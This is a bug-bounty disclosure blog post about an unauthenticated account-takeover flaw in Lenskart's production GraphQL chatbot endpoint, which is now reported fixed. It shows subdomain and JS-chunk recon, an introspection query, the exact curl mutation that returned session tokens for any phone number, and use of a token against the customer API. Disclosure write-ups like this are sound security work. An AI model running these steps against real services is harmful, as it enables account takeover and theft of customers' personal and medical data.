

import SongRecc from '../../../components/SongRecc.astro';

<figure>

<figcaption>[https://www.lenskart.com/vulnerability-disclosure-policy](https://www.lenskart.com/vulnerability-disclosure-policy#:~:text=Hall%20of%20Fame%20%2D%20Token%20of%20Appreciation)</figcaption>
</figure>

Lenskart is India's largest eyewear retailer, with over 2,500 stores and tens
of millions of customers. In June 2026 I found a mutation in their production
GraphQL API that handed out authenticated session tokens for any customer
account. No OTP, no password, no login. Just a phone number.

> This is a writeup of a pretty old one, my memory is hazy. The basic idea is same though.

# Finding the vuln

My general process for any given site is [`subfinder -d`](https://github.com/projectdiscovery/subfinder), then going through them:

```sh
$ subfinder -d "lenskart.com"

               __    _____           __         
   _______  __/ /_  / __(_)___  ____/ /__  _____
  / ___/ / / / __ \/ /_/ / __ \/ __  / _ \/ ___/
 (__  ) /_/ / /_/ / __/ / / / / /_/ /  __/ /    
/____/\__,_/_.___/_/ /_/_/ /_/\__,_/\___/_/

        projectdiscovery.io

[INF] Current subfinder version v2.16.0 (latest)
[INF] Loading provider config from /home/magni/.config/subfinder/provider-config.yaml
[INF] Enumerating subdomains for lenskart.com
c2d.qe1-mum.lenskart.com
infra.qe1-mum.lenskart.com
intnl.uat.lenskart.com
mum.lenskart.com
opto.lenskart.com
static3.lenskart.com
customer-service.lenskart.com
sa.lenskart.com
...
lkstore.qe2-mum.lenksart.com.lenskart.com
bridge.lenskart.com
aqualens.qe1-mum.lenskart.com
[INF] Found 290 subdomains for lenskart.com in 10 seconds 2 milliseconds
```

290 subdomains is a pretty huge amount! Testing if they were up with `curl` would whittle it down, but eh.
I pulled up the main lenskart site in Brave (alongside the [Playwright MCP](https://github.com/anthropics/playwright-mcp), my beloved), and got Claude to hunt for [IDORs](https://owasp.org/Top10/A01_2021-Broken_Access_Control/).

> IDORs are like ~70% of the vulns I find, and are relatively fast to find.

I spent quite a bit of time that way, but nothing crazy popped up.

Time to pivot, I decided.

# Profiling da stack

A quick look around showed it was a [Next.js](https://nextjs.org/) app. I remembered people finding unused REST APIs in JS chunks in `_next/static/chunks/`. I quickly grepped for any URL-like stuff in there and...

```sh
$ curl -s https://www.lenskart.com/ | grep -oP '_next/static/chunks/[^"]*\.js' > chunks.txt
$ wc -l chunks.txt
35 chunks.txt
$ for f in $(cat chunks.txt); do curl -s "https://www.lenskart.com/$f"; done > all_chunks.js
$ grep -oP 'https://[a-z0-9.-]*lenskart[a-z0-9.-]*' all_chunks.js | sort -u
https://api-gateway.juno.lenskart.com
https://api-gateway.juno.preprod.lenskart.com
https://area51.lenskart.io
https://bridge-arsdk-service-intnl.lenskart.com
https://carina-in.juno.lenskart.com
https://ces-dialog-gateway-rest.lk-platform.lenskart.com
https://lenskart-dev-b9d14.firebaseapp.com
https://puno-webservice.juno.lenskart.com
https://stage.lenskart.io
https://static.lenskart.com
https://statikon.lenskart.com
https://www.lenskart.com
...
```

That's a LOT of internal infra leaking out of their JS. Preprod, staging, Firebase dev
environments, internal service names. But one URL in particular caught my eye.

# The chatbot's GraphQL endpoint

Chunk `63148` had this gem sitting in it:

```js
new a.tr("".concat("https://ces-dialog-gateway-rest.lk-platform.lenskart.com"))
  .setHeaders(i.zb)
  .setMethod(o.S.POST);
n.headers.push(["x-session-token", t]);
let e = new a.Ah({
  query: "query { route { routingKey chatbotRoute { chatbotId chatbotName redirectionLink } voiceRoute { ivrNumber routeType routeName transferDestination metadata } } }"
});
```

A GraphQL endpoint for their customer support chatbot ("CES" = Customer Engagement Service).
With a literal query string right there in the JS. The POST method, the `x-session-token`
header, the `{ field { subfield } }` syntax. Unmistakably GraphQL.

First thing I always check on a GraphQL endpoint: is [introspection](https://graphql.org/learn/introspection/) enabled?

```sh
$ curl -s -X POST \
    'https://ces-dialog-gateway-rest.lk-platform.lenskart.com/ces-dialog-gateway/graphql' \
    -H 'Content-Type: application/json' \
    -d '{"query": "{ __schema { mutationType { fields { name } } } }"}'
```

It was. The full schema came back: every query, every mutation, every type and argument.
In production. On a customer-facing endpoint.

Most of the schema was chatbot routing stuff, as expected. But one mutation did not belong.

# authMasterOtp

The name alone was a red flag. "Master OTP" reads like something a developer created to skip
OTP verification during QA. The kind of shortcut that works fine on staging and becomes a
catastrophic backdoor when it ships to production.

I tested it against my own account:

```sh
$ curl -s -X POST \
    'https://ces-dialog-gateway-rest.lk-platform.lenskart.com/ces-dialog-gateway/graphql' \
    -H 'Content-Type: application/json' \
    -d '{"query": "mutation { authMasterOtp(telephone: \"MY_PHONE\", phoneCode: \"+91\") { raw } }"}'
{"data":{"authMasterOtp":{"raw":{"result":{"token":"eyJ..."}}}}}
```

A live session token. No OTP sent, none required. The mutation accepted any phone number
and returned an authenticated session for that account.

# Confirming impact

Using the token as the `x-session-token` header against Lenskart's customer API:

```sh
$ curl -s 'https://api-gateway.juno.lenskart.com/v2/customers/me' \
    -H 'x-session-token: <TOKEN>' \
    -H 'x-api-client: desktop'
```

Full account profile. I verified with a second test account to rule out it being
limited to my own number. It wasn't.

With a valid session token, an attacker could:

- Read full PII (name, email, phone, delivery addresses)
- Read order history, amounts, item details
- Read medical prescriptions (lens power, cylinder, axis, PD)
- Read and steal active gift voucher codes and balances
- Download purchase invoices as PDFs containing full personal data
- Redirect delivery on active orders to an attacker-controlled address
- Permanently delete the account (`DELETE /v2/customers/deleteCustomer`
  returned HTTP 200 with no confirmation step and no recovery path)

I definitely didn't delete my own account accidentally. That would be stupid, of course.

The [Juspay](https://juspay.in/) payment integration also looked like it could yield saved cards and
UPI IDs, though I didn't test that.

I stopped immediately after confirming the issue across two accounts. No
customer data was accessed or retained.

# The disclosure timeline

| Date | What happened |
|------|---------------|
| **Jun 5** | Reported to security@lenskart.com under their [VDP](https://www.lenskart.com/vulnerability-disclosure-policy). Acknowledged same day. |
| **Jun 18** | First follow-up. No response. |
| **Jul 3** | Second follow-up. Mutation still returning tokens in production. |
| **Sep 9** | 90-day window expired. Notified Lenskart I'd escalate to [CERT-In](https://www.cert-in.org.in/). |
| **Sep 11** | Lenskart responded, asked me to revalidate. |
| **Sep 12** | Confirmed the fix. Mutation still in the schema but resolver returns `null`. Introspection partially restricted. |
| **Sep 13** | Bounty awarded. Name added to Hall of Fame. |

98 days from acknowledgement to patch, for a vulnerability that gave
unauthenticated account takeover through a single HTTP request.

# What's next?

The more keen-eyed among you might have seen this is part 1, in the URL. On a completely unrelated note, it's a damn shame that Lenskart refreshes their VDP site on a yearly basis.
Makes the optimal strategy here to release one per year. Truly sad :P.

---
Recced song:
<SongRecc spotify="https://open.spotify.com/track/1FTSo4v6BOZH9QxKc3MbVM" />